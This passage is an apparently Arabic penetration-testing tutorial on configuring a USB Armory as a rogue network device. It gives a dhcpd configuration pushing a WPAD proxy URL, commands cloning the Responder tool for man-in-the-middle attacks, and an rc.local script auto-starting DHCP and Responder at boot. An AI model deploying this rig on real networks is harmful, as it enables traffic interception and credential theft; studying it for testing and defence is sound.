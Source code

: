 ```text

# Use this to send dhcp log messages to a different log file (you also
# have to hack syslog.conf to complete the redirection).
log-facility local7;

# wpad - Web Proxy Auto-Discovery Protocol
option local-proxy-config code 252 = text;

# A slightly different configuration for an internal subnet.
subnet 10.0.0.0 netmask 255.255.255.0 {
range 10.0.0.2 10.0.0.3;
default-lease-time 60;
max-lease-time 72;
option routers 10.0.0.1;
option local-proxy-config "http://10.0.0.1/wpad.dat";
}
```

**4. تحميل برنامج Responder**

برنامج Responder هو واحد من أشهر البرامج حاليا في عمل خادم وهمي للكثير من الخدمات مثل HTTP/SMB/MSSQL/FTP/LDAP والتي تفيد في حقن الاتصال داخل الشبكة ويستخدم كثيرا في هجمات ال MiTM.  
`mkdir /pentest && cd /pentest  
git clone https://github.com/spiderlabs/responder  
chmod +x Responder.py`  


لاحظ في في إعدادات ال dhcp server أضفنا تحت WPAD أو Web Proxy Auto-Discovery Protocol وهو رابط إعدادات البروكسي والتي سيجبر فيه الجهاز المستخدم أن يذهب إلى هذا الرابط ويحملها ليقوم باكتشاف البروكس \(بروكسي وهمي عن طريق برنامج Responder\) قبل تصفحه أي موقع.

تشغيل البرامج تلقائيا عند بدء النظام

كل ما نريده هنا أن نجعل ال USB armory أن تشغل تلقائيا ال DHCP وبرنامج Responder بمجرد أنا يعمل النظام.

```ruby
#!/bin/sh -e
#
# rc.local
#
# This script is executed at the end of each multiuser runlevel.
# Make sure that the script will "exit 0" on success or any other
# value on error.
#
# In order to enable or disable this script just change the execution
# bits.
#
# By default this script does nothing.
# Generate ssh host keys if missing
FILES=$(ls /etc/ssh/ssh_host_* 2> /dev/null | wc -l)
if [ "$FILES" = "0" ]; then
while [ $(cat /proc/sys/kernel/random/entropy_avail) -lt 256 ]; do
sleep 1;
done
/usr/sbin/dpkg-reconfigure openssh-server
fi
# Start DHCP server
if ! pgrep -x "dhcpd" > /dev/null
then
echo "Starting DHCPd" >> /root/rc.log
echo '' > /var/lib/dhcp/dhcpd.leases
/usr/sbin/dhcpd
fi
# Start Responder
echo "Staring Responder" >> /root/rc.log
```